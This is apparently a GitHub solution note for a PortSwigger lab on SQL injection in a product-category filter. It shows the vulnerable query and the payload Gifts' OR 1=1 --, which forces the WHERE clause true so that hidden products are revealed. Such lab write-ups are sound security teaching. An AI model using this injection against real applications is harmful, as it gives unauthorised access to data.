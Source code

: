 ## Lab Description :

![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/868cf552-9200-43ad-aaad-d94298775c34)


## Solution : 

Query made - 

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

To view all the products (both released and not released) , we include **Gifts' OR 1=1 --** so that it the condition evaluates to TRUE & displayed all the gifts.

The query looks like 

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1`
```


